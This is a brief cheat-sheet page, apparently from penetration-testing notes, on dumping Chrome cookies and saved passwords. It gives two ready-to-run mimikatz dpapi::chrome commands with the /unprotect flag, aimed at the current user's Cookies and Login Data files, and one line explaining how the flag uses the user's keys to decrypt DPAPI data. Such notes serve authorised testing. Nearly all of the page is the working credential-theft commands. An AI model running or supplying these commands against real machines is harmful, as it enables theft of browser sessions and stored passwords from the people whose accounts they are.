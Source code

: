 # Chrome cookies & passwords

When running as the current user, the /unprotect flag will use the current keys to decrypt the DPAPI data.

### Cookies

```text
mimikatz dpapi::chrome /in:”%localappdata%\Google\Chrome\User Data\Default\Cookies” /unprotect
```

### Saved login data

```text
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```



